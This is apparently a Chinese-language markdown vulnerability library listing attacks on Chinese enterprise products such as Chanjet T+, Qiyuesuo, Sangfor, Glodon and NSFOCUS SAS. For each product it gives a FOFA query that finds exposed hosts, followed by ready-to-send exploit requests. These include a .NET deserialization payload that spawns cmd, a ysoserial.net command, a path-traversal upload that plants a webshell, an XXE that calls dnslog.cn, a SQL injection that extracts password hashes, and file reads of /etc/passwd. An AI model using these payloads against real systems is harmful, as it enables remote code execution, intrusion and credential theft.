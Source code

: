 ## 这里就是漏洞库了

### 用友畅捷通T
> fofa语法：`app="畅捷通-TPlus"`

#### 畅捷通T+ 反序列化漏洞（QVD-2023-13615）

该漏洞属于.net反序列化场景中的 JavaScriptSerializer反序列化；

简介：在.NET处理 Ajax应用的时候，通常序列化功能由JavaSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web..Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞。

> POC
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore
  
  {
  "storeID":{}
  }
  ```

- PS:`X-Ajaxpro-Method`：用于指定在Ajax请求中要调用的服务器端方法的名称

![这是一张图片](/images/QVD-2023-13615/1.png)

- 出现这种情况，则存在漏洞  
  使用ysoserial.net工具构造payload（攻击链：ObjectDataProvider）

- `./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"`

  ![这是一张图片](/images/QVD-2023-13615/2.png)

- 将生成的序列化数据加载到PoC中（PS：需要将里面的单引号替换成双引号）

  ![这是一张图片](/images/QVD-2023-13615/3.png)

> exp：
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore

  {
  "storeID":{
      "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
      "MethodName":"Start",
      "ObjectInstance":{
          "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
          "StartInfo": {
              "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
              "FileName":"cmd", "Arguments":"/c 执行的命令"
          }
      }
  }
  }
  ```
  ![这是一张图片](/images/QVD-2023-13615/4.png)

  ![Alt text](/images/QVD-2023-13615/5.png)

- [相关链接](https://blog.csdn.net/qq_41904294/article/details/131350965)

------

### 契约锁

> fofa语法：`app="契约锁-电子签署平台"`

#### 契约锁电子签章系统RCE

> POC
  ```
  POST /callback/%2E%2E;/code/upload HTTP/1.1
  Host: ip:port
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/w
  ebp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Content-Type: multipart/from-data;

  boundary=----GokVTLZMRxcJWKfeCvEsYHlszxEANApZseNMGLki
  ----GokVTLZMRxcJWKfeCvEsYHlszxEANApZseNMGLki
  Content-Disposition: from-data; name="type";

  TIMETASK
  ----GokVTLZMRxcJWKfeCvEsYHlszxEANApZseNMGLki
  Content-Disposition: from-data; name="file"; filename="qys.jpg"

  马儿

  ----GokVTLZMRxcJWKfeCvEsYHlszxEANApZseNMGLki
  ```

------

### 深信服 DC数据中心管理系统

> fofa语法：`app="SANGFOR-数据中心"`

#### 深信服数据中心管理系统 XXE漏洞

> POC
  ```
  POST /src/sangforindex HTTP/1.1
  Host: your-ip
  Content-Type: text/xml
  
  <?xml version="1.0" encoding="utf-8" ?>
  <!DOCTYPE root [
      <!ENTITY rt SYSTEM "http://dnslog.cn">
  ]>
  <xxx>
  &rt;
  </xxx>
  ```

> 验证

![Alt text](/images/深信服/1.png)

![Alt text](/images/深信服/2.png)

[相关链接](https://blog.csdn.net/qq_41904294/article/details/132310337)

------

### 通达OA

> fofa语法：`app="TDXK-通达OA" && icon_hash="-759108386"`

------

### 广联达OA

> fofa语法：`fid="/yV4r5PdARKT4jaqLjJYqw==" && "/Services/Identification/Server/"`

#### 广联达 LinkworksGetIMDictionarySQL 注入漏洞

> POC
  ```
  POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
  Host: 
  Content-Type: application/x-www-form-urlencoded
  key=1'UNIONALL SELECT top1concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER--
  ```

------

### 深信服应用交付报表系统

- fofa语法：`app="SANGFOR-应用交付报表系统" && fid="iaytNA57019/kADk8Nev7g=="`

> 登录界面
> ![Alt text](/images/深信服/3.png)

### 深信服应用交付报表任意文件读取漏洞

> POC:`/report/download.php?pdf=../../../../../etc/passwd`

![Alt text](/images/深信服/4.png)

[相关链接](https://blog.csdn.net/weixin_44268918/article/details/128964755)

------

### 绿盟SAS安全审计系统/堡垒机

> fofa语法：`title="NSFOCUS&nbsp;SAS[H]" && body="'/needUsbkey.php?username='"`

> 登录界面
> ![Alt text](/images/绿盟/1.png)

#### 绿盟sas安全审计系统任意文件读取漏洞

> POC:`webconf/GetFile/index?path=…/…/…/…/…/…/…/…/…/…/…/…/…/…/etc/passwd`

![Alt text](/images/绿盟/2.png)
